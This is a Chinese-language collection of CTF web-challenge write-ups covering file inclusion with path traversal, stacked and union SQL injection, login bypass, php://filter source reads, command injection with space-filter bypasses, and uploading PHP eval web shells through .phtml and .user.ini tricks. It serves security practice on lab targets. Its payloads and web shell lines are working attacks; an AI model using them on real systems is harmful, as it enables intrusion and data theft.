## Web

#### [HCTF 2018]WarmUp

- 根据提示，代码审计。

- 检查页面元素，发现`source.php`

  

- 在URL后加`/source.php`，在网页上会显示源代码。审计。

- 发现`hint.php`。

  

- 在URL后加`/hint.php`，在网页上会显示:

  

- 再次审计源代码。

  

  - **必须满足if条件，才能包含file，这里也可以猜到可能考的是文件包含：**
    1. REQUEST['file']不为空
    2. REQUEST['file']是字符串
    3. checkFile($_REQUEST['file']) 为ture

- 这里回到checkFile 函数分析如何返回true。

  ```php
  public static function checkFile(&$page)
          {
              $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
              if (! isset($page) || !is_string($page)) {
                  echo "you can't see it";
                  return false;
              }
  						/*为了返回 true 两个条件必须满足
              	1 page存在 
              	2 page是字符串 ，
              	这里和外层的判断file一致*/
              if (in_array($page, $whitelist)) {
                  return true;
              }
  						/*判断传入的page或者是经过截断之后的page必须是source.php或hint.php*/
              $_page = mb_substr(
                  $page,
                  0,
                  mb_strpos($page . '?', '?')
              );
    					/*获取file两个？之间的字符串，放到url中就是http://ip/?file=xxx?中的file=xxx*/      
              if (in_array($_page, $whitelist)) {
                  return true;
              }
  
              $_page = urldecode($page); // 这里发现对_page进行了一次decode解码
              $_page = mb_substr(
                  $_page,
                  0,
                  mb_strpos($_page . '?', '?')
              );
              if (in_array($_page, $whitelist)) {
                  return true;
              }
              echo "you can't see it";
              return false;
          }
  ```

- 根据上面的判断构造payload。

  ```
  /source.php?file=source.php?../../../../../../../../ffffllllaaaagggg
  ```

- 在页面下方会出现flag。

  

#### [强网杯 2019]随便注

- 在输入框输入`1'`返回如下，证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```
  error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
  ```

- 在输入框中输入`1' order by 1#`，不报错，直到`1' order by 3#`，报出以下错误，说明列数为2。

  ```
  error 1054 : Unknown column '3' in 'order clause'
  ```

- 在输入框中输入 `1' union select 1,2#`，报出以下错误：

  ```
  return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
  ```
  
- 发现几乎全部关键字都给过滤，尝试使用堆叠注入。

- 在输入框中输入`1';show databases;#`，查询所有数据库：

  

- 在输入框中输入`1';show tables;#`，查询所有表：

  

- 查询两个表中所有列：发现flag在此表中。

  ```mysql
  1';show columns from `1919810931114514`;#
  ```

  

  ```mysql
  1';show columns from words;#
  ```

  

- 两表数据模式相似，尝试将两个表名字互换，直接查询`1919810931114514`表中内容：

  ```mysql
  1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#
  ```

  - 将words表名改为words1，将1919810931114514表名改为words，将现在的words表中的flag列名改为id。设置数据库的默认编码为`utf8`。

- 在输入框中输入`1' or 1=1 #`，查询flag：

  

#### [极客大挑战 2019]EasySQL

- 在用户名框输入`1'`，在密码框输入`123456`。证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '123456'' at line 1
  ```

- 一般，验证登录注册查询数据库可能会用以下语句：

  ```mysql
  select * from table_name where username='xxxx' and password='xxxxxx' ;
  ```

- 如果用户密码匹配正确则返回真值，通过验证成功登录。如果让它不匹配数据库也能返回真值那么就能绕过验证登录。

- 如果我们传入的 `username` 为 1' or 1=1 #，随意输入 `password`，那么传入后端验证时，sql语句就是

  ```mysql
  select * from table_name where username='1' or 1=1 # ' and password='xxxxxx' ;
  ```

- 因为sql语句中 # 为注释符，也就是

  ```mysql
  select * from table_name where username='1' or 1=1 
  ```

- 那么因为 `1=1` 恒为真，所以sql语句返回真值，成功实现绕过验证,得到flag。

  

#### [SUCTF 2019]EasySQL

- 首先尝试单引号闭合`1'	`，发现没有结果。

- 再尝试`order by`，`union`等一系列盲注语句，发现都没有结果，证明盲注的很多字符都被过滤掉了。

- 考虑堆叠注入。查询所有数据库：`1; show databases;#`

  

- 查询所有表：`1; show tables;#`

  

- 查询Flag表中字段，结果显示Nonono.

  ```mysql
  1;show columns from `Flag`;#
  ```

- 查看别人写好的Wp。得到flag。

  ```mysql
  1;set sql_mode=PIPES_AS_CONCAT;select 1
  *,1
  ```

  

#### [极客大挑战 2019]Havefun

- 检查页面元素，发现提示：

  

- 直接传参`?cat=dog`，即得flag。

  

#### [极客大挑战 2019]Secret 

- 查看源文件，发现`Archive_room.php`。

  

- 点击链接，跳转到`Archive_room.php`。

  

- 点击「SECRET」按钮。

  

- 查看`Archive_room.php`源码，发现`action.php`，说明这个速度很快，使用「Burpsuite」进行拦截。

  

- 拦截`action.php`，「Send to repeater」—> 「Send」重放包。发现`secr3t.php`。

  

- 查看`secr3t.php`。代码审计。

  ```php+HTML
  <html>
      <title>secret</title>
      <meta charset="UTF-8">
  <?php
      highlight_file(__FILE__);
      error_reporting(0);
      $file=$_GET['file'];
      if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
          echo "Oh no!";
          exit();
      }
      include($file); 
  //flag放在了flag.php里
  ?>
  </html>
  ```

- 可以看出这是一个文件包含，提示flag放在了`flag.php`里。传入的file参数进行了strstr()过滤。strstr() 函数搜索字符串在另一字符串中是否存在，如果是，返回该字符串及剩余部分，否则返回 FALSE。如果file参数中包含`../`、`tp`、`input`、`data`，都会报错退出。

- 查找资料，构造payload：`/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`

- 页面上出现一串base64编码的字符：

  ```
  PCFET0NUWVBFIGh0bWw+Cgo8aHRtbD4KCiAgICA8aGVhZD4KICAgICAgICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgICAgICAgPHRpdGxlPkZMQUc8L3RpdGxlPgogICAgPC9oZWFkPgoKICAgIDxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOmJsYWNrOyI+PGJyPjxicj48YnI+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPGgxIHN0eWxlPSJmb250LWZhbWlseTp2ZXJkYW5hO2NvbG9yOnJlZDt0ZXh0LWFsaWduOmNlbnRlcjsiPuWViuWTiO+8geS9oOaJvuWIsOaIkeS6hu+8geWPr+aYr+S9oOeci+S4jeWIsOaIkVFBUX5+fjwvaDE+PGJyPjxicj48YnI+CiAgICAgICAgCiAgICAgICAgPHAgc3R5bGU9ImZvbnQtZmFtaWx5OmFyaWFsO2NvbG9yOnJlZDtmb250LXNpemU6MjBweDt0ZXh0LWFsaWduOmNlbnRlcjsiPgogICAgICAgICAgICA8P3BocAogICAgICAgICAgICAgICAgZWNobyAi5oiR5bCx5Zyo6L+Z6YeMIjsKICAgICAgICAgICAgICAgICRmbGFnID0gJ2ZsYWd7MGRlYzkxODktMjBiMS00MTNjLTllNzgtYzExOWVkN2YzOTgxfSc7CiAgICAgICAgICAgICAgICAkc2VjcmV0ID0gJ2ppQW5nX0x1eXVhbl93NG50c19hX2cxcklmcmkzbmQnCiAgICAgICAgICAgID8+CiAgICAgICAgPC9wPgogICAgPC9ib2R5PgoKPC9odG1sPgo=
  ```

- base64解码后是一段html代码，从中找到flag。

  ```html
  <!DOCTYPE html>\n\n<html>\n\n    <head>\n        <meta charset="utf-8">\n        <title>FLAG</title>\n    </head>\n\n    <body style="background-color:black;"><br><br><br><br><br><br>\n        \n        <h1 style="font-family:verdana;color:red;text-align:center;">\xe5\x95\x8a\xe5\x93\x88\xef\xbc\x81\xe4\xbd\xa0\xe6\x89\xbe\xe5\x88\xb0\xe6\x88\x91\xe4\xba\x86\xef\xbc\x81\xe5\x8f\xaf\xe6\x98\xaf\xe4\xbd\xa0\xe7\x9c\x8b\xe4\xb8\x8d\xe5\x88\xb0\xe6\x88\x91QAQ~~~</h1><br><br><br>\n        \n        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">\n            <?php\n                echo "\xe6\x88\x91\xe5\xb0\xb1\xe5\x9c\xa8\xe8\xbf\x99\xe9\x87\x8c";\n                $flag = \'flag{0dec9189-20b1-413c-9e78-c119ed7f3981}\';\n                $secret = \'jiAng_Luyuan_w4nts_a_g1rIfri3nd\'\n            ?>\n        </p>\n    </body>\n\n</html>\n
  ```

#### [ACTF2020 新生赛]Include

- 根据题目提示，这是一个远程文件包含漏洞。
- 点击Tips链接，出现：Can you find out the flag? 没有其他任何信息。
- 根据经验以及查阅php文件包含漏洞的相关知识，尝试构造payload：`/?file=php://filter/convert.base64-encode/resource=flag.php`

- 页面上出现一串base64编码的字符：

  ```
  PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7MTRlN2QxYjMtODU4NC00MzZiLWFkNGQtY2Q0OTdmNjk4ZmU4fQo=
  ```

- base64解码后是一段php代码，从中找到flag。

  ```php
  <?php\n echo "Can you find out the flag?";\n//flag{14e7d1b3-8584-436b-ad4d-cd497f698fe8}\n
  ```

#### [极客大挑战 2019]LoveSQL

- 在用户名框输入`1'`，在密码框输入`123456`。证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '123456'' at line 1
  ```

- 一般，验证登录注册查询数据库可能会用以下语句：

  ```mariadb
  select * from table_name where username='xxxx' and password='xxxxxx' ;
  ```

- 如果用户密码匹配正确则返回真值，通过验证成功登录。如果让它不匹配数据库也能返回真值那么就能绕过验证登录。

- 如果我们传入的 `username` 为 1' or 1=1 #，随意输入 `password`，那么传入后端验证时，sql语句就是

  ```mariadb
  select * from table_name where username='1' or 1=1 # ' and password='12345' ;
  ```

- 因为sql语句中 # 为注释符，也就是

  ```mariadb
  select * from table_name where username='1' or 1=1 
  ```

- 那么因为 `1=1` 恒为真，所以sql语句返回真值，成功实现绕过验证登录。

  

- 尝试对这一个字符串进行md5解密，没有结果。
- 此时的url为`check.php?username=1%27+or+1%3D1+%23&password=12345`

- 继续进行SQL尝试。直接在本页面对url进行修改。

  ```mariadb
  /check.php?username=1' order by 3%23&password=12345    存在
  /check.php?username=1' order by 4%23&password=12345    报错
  "#"用url编码%23代替
  ```

- 可知共3个字段。用`union`查询测试注入点（回显点位）：

  ```
  /check.php?username=1' union select 1,2,3%23&password=12345
  ```

  

- 使用联合查询，结合第一步查出来的字段数，查询当前数据库名。

  ```mariadb
  /check.php?username=1' union select 1,2,(select database())%23&password=12345
  
  Your password is 'geek'
  ```

- 查表名。

  ```mariadb
  /check.php?username=1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='geek')%23&password=12345
  
  Your password is 'geekuser,l0ve1ysq1'
  ```

- 查列名。

  ```mariadb
  /check.php?username=1' union select 1,2,( select group_concat( column_name ) from information_schema.columns where table_name='geekuser')%23&password=12345
  // Your password is 'id,username,password'
  
  /check.php?username=1' union select 1,2,( select group_concat( column_name ) from information_schema.columns where table_name='l0ve1ysq1')%23&password=12345
  // Your password is 'id,username,password'
  ```

- 查数据，得到flag。

  ```mariadb
  /check.php?username=1' union select 1,2,group_concat(id,0x3a,username,0x3a,password) from geek.geekuser%23&password=12345
  // Your password is '1:admin:ea2c862dd8b326f50842361876b5462e'
  
  /check.php?username=1' union select 1,2,group_concat(id,0x3a,username,0x3a,password) from geek.l0ve1ysq1%23&password=12345
  // Your password is '1:cl4y:wo_tai_nan_le,2:glzjin:glzjin_wants_a_girlfriend,3:Z4cHAr7zCr:biao_ge_dddd_hm,4:0xC4m3l:linux_chuang_shi_ren,5:Ayrain:a_rua_rain,6:Akko:yan_shi_fu_de_mao_bo_he,7:fouc5:cl4y,8:fouc5:di_2_kuai_fu_ji,9:fouc5:di_3_kuai_fu_ji,10:fouc5:di_4_kuai_fu_ji,11:fouc5:di_5_kuai_fu_ji,12:fouc5:di_6_kuai_fu_ji,13:fouc5:di_7_kuai_fu_ji,14:fouc5:di_8_kuai_fu_ji,15:leixiao:Syc_san_da_hacker,16:flag:flag{df2e739c-be0e-488a-9d09-26a5e124d8d5}'
  ```

#### [护网杯 2018]easy_tornado

- 分别查看三个txt文件。

  ```
  /flag.txt
  flag in /fllllllllllllag
  /welcome.txt
  render
  /hints.txt
  md5(cookie_secret+md5(filename))
  ```

#### [GXYCTF2019]Ping Ping Ping

- 页面上显示：`/?ip=`，随便输一些内容看看返回值。

  

- 尝试ping一下flag。`/?ip=flag`，发现flag被过滤。

  

- 尝试ping本地127.0.0.1，并列举当前目录下的文件。`/?ip=127.0.0.1;ls`

  

- 发现存在两个文件。查看`flag.php`，尝试寻找flag。`/?ip=127.0.0.1;cat flag.php`

  

- 发现空格被过滤，使用`/?ip=127.0.0.1;cat${IFS}1index.php`。

  

- 查看Wp，构造payload：`?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`，其中，`Y2F0IGZsYWcucGhw`是`cat flag.php`的base64编码。

- 查看源文件即得flag。

  

- 另一种有效的payload：``?ip=127.0.0.1;cat$IFS$1`ls`  ``

- 此题相关理论的参考链接：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)

#### [ACTF2020 新生赛]Exec

- 命令执行漏洞。直接ping

- `127.0.0.1;ls`

  

- 此题没有什么过滤，直接查看flag。`127.0.0.1;cat /flag`

  

####[极客大挑战 2019]Upload

- 上传一个php文件，失败。

#### [ACTF2020 新生赛]Upload

- 上传一个php文件，弹出警告框：

  

- 检查页面源代码，发现前端JS有文件类型检查。

  

- 直接删除，再次上传php文件。但是还是失败。

  

- 猜测在后端应该还有过滤。尝试上传phtml文件。

  ```html
  <script language='php'>@eval($_POST['aaaaa']);</script>
  ```

- 提示上传成功。

  

- 使用中国蚁剑连接，url为：`靶机url+文件上传地址`密码为：`一句话木马中的POST参数（这里是aaaaa）`

  

- 成功连接，直接到根目录下找到flag。

  

#### [极客大挑战 2019]BuyFlag

- 首先观察页面信息：

  

  

- 然后检查页面源文件，有一段注释：

  

- 两个提示告诉我们，password要等于404并且不能是数字，金钱要达到100000000，才能获得flag。

- 使用「Burpsuite」发一个post包。可以看到，包里带有Cookie信息。当user=0时，提示你不是Cuit的学生，所以这里要修改user的值。

  

- 当user=1时，这时身份已经变成Cuiter。但是密码是不正确的。

  

- 密码要求不能是数字，所以这里用弱类型404abc。此时提示你money的长度过长。

  

- 改为科学计数法。即得flag。

  

#### [SUCTF 2019]CheckIn

- 上传一个ptml文件。提示后缀不合法。

  

- 使用「Burpsuite」拦截，修改文件类型，失败。

  

- 查看题目给的源码，这里有一个`exif_imagetype()`的检验。

  ```php
  <?php
  if (exif_imagetype("image.gif") != IMAGETYPE_GIF) {
      echo "The picture is not a gif";
  }
  ?>
  
  if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
  
  echo "File is not an image";
   
  return;
   
  }
  ```

- 查看资料，这里需要上传一个`.user.ini`（[参考链接](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)）来绕过黑名单检验。

  ```php
  GIF89a         //绕过exif_imagetype()         
  auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。
  ```

  

- 在上传一个`a.jpg`图片马。

  ```php+HTML
  GIF89a   //绕过文件类型检查 
  <script language='php'> @eval($_POST['pass']);</script>
  ```

  

- 使用中国蚁剑连接，url为：`靶机url+文件上传地址+index.php`密码为：`一句话木马中的POST参数（这里是pass）`。成功连接后，在根目录下找到flag。

  

#### [BJDCTF2020]Easy MD5

- 打开网站，随便输入一些什么提交，页面没有变化。

- 打开开发者工具，查看包。

